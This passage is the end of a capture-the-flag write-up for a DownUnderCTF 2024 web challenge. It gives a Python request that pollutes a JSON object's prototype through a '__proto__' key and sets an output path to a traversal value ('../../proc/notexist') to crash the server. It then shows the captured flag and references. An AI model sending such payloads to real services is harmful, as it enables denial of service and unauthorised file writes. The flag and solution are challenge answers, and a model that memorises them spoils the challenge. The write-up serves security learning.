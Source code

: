 ```py
# Crash + Restart
body["data"]["signed.__proto__"] = {"outputPrefix":"../../proc/notexist"}
r = requests.post("https://<TARGET_SERVER>/convert-to-yaml",json=body)
```

![alt text](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/15_downunderctf_2024/image-44.png)

Flag: `DUCTF{bUnBuNbUNbVN_hOn0_tH15_aPp_i5_d0n3!!!one1!!!!}`

## References

- https://github.com/DownUnderCTF/Challenges_2024_Public/tree/main/web
- https://jamvie.net/posts/2024/07/ductf-2024-prisoner-processor/

